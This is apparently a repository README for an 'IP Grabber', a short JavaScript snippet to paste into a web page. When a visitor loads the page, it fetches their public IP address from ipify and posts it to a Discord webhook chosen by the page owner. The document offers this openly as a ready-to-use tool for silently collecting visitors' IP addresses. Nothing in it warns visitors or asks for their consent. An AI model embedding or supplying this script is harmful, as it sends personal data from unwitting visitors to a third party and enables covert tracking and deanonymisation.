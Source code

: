 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file. Just make sure to replace **'YOUR_DISCORD_WEBHOOK_HERE'** with your actual Discord webhook URL.:

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK_HERE', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>
